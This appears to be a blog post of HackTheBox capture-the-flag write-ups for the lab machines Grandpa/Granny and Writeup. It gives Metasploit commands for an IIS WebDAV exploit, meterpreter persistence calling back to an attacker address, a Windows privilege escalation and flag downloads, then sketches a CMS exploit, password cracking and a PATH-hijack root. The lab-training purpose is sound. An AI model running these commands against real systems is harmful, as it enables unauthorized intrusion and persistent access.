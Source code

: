 ```yaml
---
title: "HackTheBox - WriteUp 6"
date: 2019-06-14T14:07:30+08:00
description: "HackTheBox 练手"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Grandpa & Granny

That really sucks. Even I use VPS in New York which result in ping response always in 20ms, it still failed to get connected from victim.

## MSF way

### Warm up

Nmap Scanned: Port 80 opened. IIS httpd 6.0 with Windows Server 2003.

### Normal User

Run these commands in `msfconsole`:

```bash
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.10.10.14
exploit
```

Then use these commands in meterpreter to stablize it:

```bash
run persistence -X -U -A -L %TEMP% -r 10.10.14.6 -p 4455
getuid
> Permission denied
migrate 2212    # davcdata.exe
getuid
> NT AUTHORITY\NETWORK SERVICE
bg
```

In fact, finally, I migrate to `wmiprvse.exe`. And wait for a long time before privilege escalation.

### Administrator / System

> Due to the fucking network on my VPS, this step took me a lot of time. So you must ensure your network stablity is really well.

```bash
use exploit/windows/local/ms14_070_tcpip_ioctl
set SESSION 1
exploit
bg
sessions -i 1
getuid
> NT AUTHORITY\SYSTEM
download "C:\Documents and settings\harry\desktop\user.txt"
download "C:\Documents and settings\administrator\desktop\root.txt"
```
Privilege Escalated. Finished.

## OSCP way

TBD

# Writeup

Remember It's a EASY box.

This box has fail2ban mechanism, stop using automated tools, eg. SQLMAP.

## User

Use `nmap -A -O 10.10.10.138` to get the result.

You will find a `robots.txt` and a path `/writeup`.

Check the page source code, "CMS Made Simple" generated. Then `searchsploit` and choose the `46635.py`, finally, crack with `rockyou` in kali built-in wordlist.

## Root

> The quieter you are, the more you are able to hear.

Use Linenum to check the directory/files you can write. Then pay attention to PATH.

Next, run pspy64 and generate some traffic with login again.

You will find `run-parts` seems to be running in root and with a specific PATH in absolute path of the run-parts. According to the order of PATH, you just create a script, and `ln -s` to `/usr/local/bin`, then, you'll get it.

(DONE)


